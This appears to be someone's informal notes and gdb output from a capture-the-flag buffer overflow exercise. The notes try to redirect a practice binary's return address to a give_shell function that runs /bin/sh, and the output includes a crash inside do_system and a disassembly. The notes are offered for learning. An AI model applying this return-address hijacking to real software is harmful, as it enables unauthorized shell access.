 
Okay, I had to increase, but look, I got a segdault in the near direction of where I wanted to be:
rip            0x40069d41          0x40069d41


I think maybe I have to go a little further to mush my 0's on there
I wonder if it deadass just isn't reading in my 0's
Like maybe if I put something superflous after them?

I did that and it put it at the BEGINNING
So how tf do I give it 0's

Maybe I can time it a few down so it only overwrites the PART
OH HOOLD UP, there's a segfault happening AFTER I get give_shell
```
0x00007ffff7e17603 in do_system (line=0x4007a4 "/bin/sh")
    at ../sysdeps/posix/system.c:148
148    ../sysdeps/posix/system.c: No such file or directory.
(gdb) $ info registers
rax            0x7ffff7fa6320      140737353769760
rbx            0x7fffffffdc68      140737488346216
rcx            0x7fffffffdc68      140737488346216
rdx            0x0                 0
rsi            0x7ffff7f6104f      140737353486415
rdi            0x7fffffffda64      140737488345700
rbp            0x7fffffffdac8      0x7fffffffdac8
rsp            0x7fffffffda58      0x7fffffffda58
r8             0x7fffffffdaa8      140737488345768
r9             0x7fffffffdf18      140737488346904
r10            0x8                 8
r11            0x246               582
r12            0x4007a4            4196260
r13            0x7fffffffdf18      140737488346904
r14            0x0                 0
r15            0x7ffff7ffd000      140737354125312
rip            0x7ffff7e17603      0x7ffff7e17603 <do_system+339>
eflags         0x10246             [ PF ZF IF RF ]
cs             0x33                51
ss             0x2b                43
ds             0x0                 0
es             0x0                 0
fs             0x0                 0
--Type <RET> for more, q to quit, c to continue without paging--$ p/x *0x7ffff7e17603
gs             0x0                 0
(gdb) $ p/x *0x7ffff7e17603
$1 = 0x2444290f
(gdb) $ p/x *40069d
Invalid number "40069d".
(gdb) $ p/x *0x40069d
$2 = 0xe5894855
(gdb) $ disas hell
No symbol "hell" in current context.
(gdb) $ disas give_shell
Dump of assembler code for function give_shell:
   0x000000000040069d <+0>:    push   %rbp
   0x000000000040069e <+1>:    mov    %rsp,%rbp
   0x00000000004006a1 <+4>:    mov    $0x4007a4,%edi
   0x00000000004006a6 <+9>:    mov    $0x0,%eax
   0x00000000004006ab <+14>:    call   0x400550 <system@plt>
   0x00000000004006b0 <+19>:    pop    %rbp
   0x00000000004006b1 <+20>:    ret
End of assembler dump.
(gdb) $  zsh: suspended (signal)  python3 Boffin_Local_Debug.py

```
LOOK AT WHERE MY ERROR IS